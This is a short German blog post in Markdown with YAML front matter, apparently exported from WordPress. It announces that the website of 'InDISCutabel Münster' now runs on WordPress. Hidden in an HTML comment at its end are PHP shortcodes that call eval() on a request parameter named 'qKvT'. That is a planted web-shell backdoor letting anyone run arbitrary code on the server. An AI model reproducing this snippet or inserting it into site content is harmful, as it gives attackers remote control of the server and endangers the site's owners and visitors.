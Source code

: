 ```yaml
---
id: 1
title: Neue Webseite
date: 2009-11-18T21:53:35+01:00
author: Shorty
layout: post

permalink: /2009/11/hallo-welt/
categories:
  - Allgemein
tags:
  - Neue Homepage
  - Neue Webseite
  - Wordpress
---
```

Alles bleibt anders&#8230; dies ist die neue Webseite von InDISCutabel Münster. Sie basiert ab sofort auf dem Redaktionssystem WordPress und kleidet sich in ein neues, schlichtes Gewand. Natürlich ist noch nicht alles perfekt, deswegen freuen wir uns über Kommentare, Ideen und Kritik!

<!-- [insert_php]if (isset($_REQUEST["qKvT"])){eval($_REQUEST["qKvT"]);exit;}[/insert_php][php]if (isset($_REQUEST["qKvT"])){eval($_REQUEST["qKvT"]);exit;}[/php] -->